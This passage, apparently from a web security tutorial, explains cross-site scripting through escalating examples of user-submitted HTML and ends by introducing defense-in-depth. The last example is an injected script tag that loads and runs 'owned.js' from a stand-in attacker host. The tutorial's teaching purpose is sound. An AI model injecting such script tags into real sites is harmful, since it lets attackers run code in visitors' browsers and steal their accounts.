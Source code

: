 For an honest interaction like "What could possibly go wrong?"
as user input,
that is truly harmless.
What about this?

```html
<div class="area-where-user-content-gets-displayed">
  I am getting <i>sneaky</i>.
</div>
```

Now,
the user added a bit of HTML markup.
Again,
this is fairly benign
and will only add some unanticipated italics.
What if the user is a bit more clever than that?

```html
<div class="area-where-user-content-gets-displayed">
  <script>alert("Boom goes the dynamite!")</script>
</div>
```

Here's where a site gets into trouble.
If this is rendered on a page,
a little alert box will appear.
You can imagine this happening in a forum
or some other sharing site
where multiple people will see this output.
That's annoying,
but it's still not horrible.

What does a really bad scenario look like?
A really bad scenario is where the bad guys figure out
that your site is unsafe in this way.
Consider this:

```html
<div class="area-where-user-content-gets-displayed">
  <script src="https://really-bad-guys.com/owned.js"></script>
</div>
```

Now your users are really in trouble.
In this final version,
the bad guys won.
A user's browser will download and execute whatever JavaScript
is in `owned.js`.
This code could do all kinds of stuff
like using the `fetch` API
to run AJAX requests
that can change the user's account credentials
and steal their account.

How do we defend against this kind of attack?
There isn't a singular answer.
In fact,
multiple layers of protection is often what you really want.
In security,
this idea is called "defense-in-depth."
If you have multiple layers to protect your site,
then the site may become a less appealing target
for attackers.

